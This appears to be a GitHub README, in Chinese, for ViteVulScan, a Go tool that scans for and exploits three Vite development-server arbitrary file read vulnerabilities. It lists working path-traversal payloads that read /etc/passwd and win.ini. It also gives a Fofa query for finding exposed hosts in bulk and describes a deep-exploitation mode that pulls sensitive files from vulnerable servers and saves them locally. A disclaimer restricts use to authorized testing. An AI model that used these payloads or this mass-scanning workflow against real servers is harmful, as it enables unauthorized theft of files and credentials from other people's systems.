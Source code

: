 # ViteVulScan

## 漏洞介绍
本项目涉及3个漏洞：CVE-2025-30208/CVE-2025-31125，都是关于Vite开发服务器任意文件读取漏洞，这三个漏洞覆盖面大且利用简单不受限制。

### 漏洞POC：
CVE-2025-30208：
>Windows: /@fs/C://Windows/win.ini?import&raw??
> 
> Linux: /@fs/etc/passwd?import&raw??

CVE-2025-31125
> Windows: /@fs/C://windows/win.ini?import&?inline=1.wasm?init
>
> Linux: /@fs/etc/passwd?import&?inline=1.wasm?init

CVE-2025-31486
> Windows: /@fs/x/x/x/vite-project/?/../../../../../C://windows/win.ini?import&?inline=1.wasm?init
> Linux: /@fs/x/x/x/vite-project/?/../../../../../etc/passwd?import&?inline=1.wasm?init

路径中的/@fs可以不需要携带。

### Fofa测绘语法：
> body="/@vite/client"

## 脚本使用介绍
### 脚本特点
1. 可以联动fofa进行批量利用
2. 会解析存在漏洞的精确路径并进行深度利用
3. 充分利用 go 的并发功能，可以实现在短时间内对大量资产进行快速的批量探测

### 编译说明
go版本：`go 1.20以上版本`

进入到项目根目录

先同步一下依赖
> go mod tidy

然后编译项目
>  go build -o ViteVulScan -ldflags="-s -w" -trimpath .

` ./ViteVulScan`即可运行该脚本。

当然你也可以直接在项目根目录下运行该项目:
> go run . 

### 配置
脚本支持联动fofa搜索资产然后进行批量检测。

要想使用fofa，要确保app.ini文件和编译后的二进制文件在同一目录，并且需要修改config目录下的app.ini文件，其中的fofakey字段填上自己的fofakey，num是自己估摸要检测的大概资产数量。

如果你有针对该漏洞更好的fofa测绘语法，可以自行修改fofaQuery字段。

### 命令行参数介绍



> Usage of ./ViteVulScan:

| 参数                      |                                        描述                                        |
|-------------------------|:--------------------------------------------------------------------------------:|
| -cve                    | 使用哪个cve漏洞进行检测。支持CVE_2025_30208/CVE_2025_31125/CVE_2025_31486。默认使用CVE_2025_30208。 |
| -fofa                   |                        指定该参数后，会联动fofa测绘资产，对得到的目标资产进行批量检测                         |
| -u    \|    -url        |                                 指定单个url目标，对其进行检测                                 |
| -f     \|     -filename |                               指定一个文件名，批量检测其中的url地址                               |
| -e                      | 指定该参数后，会对检测存在漏洞的资产进行深度利用，读取各种可能存在的敏感文件并保存在本地。(请谨慎使用该功能，最好是对单个目标检测，也就是使用-u时加上该参数) |

### 说明

1. 批量检测一个文件中的所有目标URL，确保文件中每行一个URL即可，URL可以是包含http的完整URL，也可以是一个域名或者ip，比如：
   ````text
     http://example1.com 
     example2.com
     127.0.0.1
   ````
2. 当指定-fofa和-f参数进行检测后，会自动将存在漏洞的资产保存到当前文件下，文件名格式为"当下时间戳.csv"。 
3. 同时支持对linux和windows平台进行利用，利用的字典分别为dict目录下的linux_sensitive_path.txt和windows_sensitive_path.txt，如果有更多敏感路径，可以自己在相应的字典中进行添加。

# 免责声明
本工具仅用于安全研究和授权测试，请勿用于非法用途。使用本工具进行任何未经授权的测试所造成的后果由使用者自行承担。

# 更新
## 3月29日首次发布：
- 实现fofa进行资产搜集功能
- 实现用CVE_2025_30208漏洞进行批量验证
- 添加命令行解析功能
## 4月1日：
- 实现深度利用功能
## 4月2日：
- 添加对刚出来的CVE_2025_31125漏洞的验证。
## 4月9日
- 修改了 fofa 模块的错误。
- 添加了并发功能，支持快速批量探测资产是否存在漏洞。
- 添加了对 CVE_2025_31486的验证
- 修改了项目文件结构